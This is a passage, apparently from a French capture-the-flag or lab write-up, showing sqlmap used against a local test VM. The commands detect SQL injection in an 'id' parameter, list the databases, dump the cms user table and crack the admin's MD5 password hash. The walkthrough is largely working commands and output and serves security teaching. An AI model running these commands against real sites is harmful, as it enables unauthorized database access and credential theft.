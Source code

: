 En quelques secondes à peine, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le paramètre testé ```id``` est vulnérable aux injections SQL. Après plusieurs tentatives, SQLMap récupère les tables ```--tables``` ainsi que les colonnes ```--columns``` présentes dans chaque base de données trouvée ```--dbs```, et tant qu'à faire, autant récupérer tout le contenu de la base de données avec ```--dump-all```.

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/index.php?id=14" --dbms=MySQL --dbs -v0
--snip--
available databases [5]:
[*] cms
[*] information_schema
[*] mysql
[*] roundcube
[*] test
```

C'est parti pour le dump des données !

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/index.php?id=14" --dbms=MySQL -D cms --tables
--snip--
[00:11:22] [INFO] fetching tables for database: 'cms'
Database: cms
[3 tables]
+-------+
| user  |
| event |
| log   |
+-------+

--snip--

root@blinils:~# sqlmap -u "http://192.168.56.101/index.php?id=14" --dbms=MySQL --dump -D cms -T user
--snip--
[00:11:22] [INFO] fetching columns for table 'user' in database 'cms'
[00:11:22] [INFO] fetching entries for table 'user' in database 'cms'
[00:11:22] [INFO] recognized possible password hashes in column 'user_password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[00:11:22] [INFO] writing hashes to a temporary file '/tmp/sqlmapbMP1dW10777/sqlmaphashes-vbDWaU.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[00:11:22] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[00:11:22] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[00:11:22] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[00:11:22] [INFO] starting 2 processes 
[00:11:22] [INFO] cracked password 'adminpass' for hash '25e4ee4e9229397b6b17776bfceaf8e7'
Database: cms
Table: user
[1 entry]
+---------+---------------+----------------------------------------------+
| user_id | user_username | user_password                                |
+---------+---------------+----------------------------------------------+
| 1       | admin         | 25e4ee4e9229397b6b17776bfceaf8e7 (adminpass) |
+---------+---------------+----------------------------------------------+
```
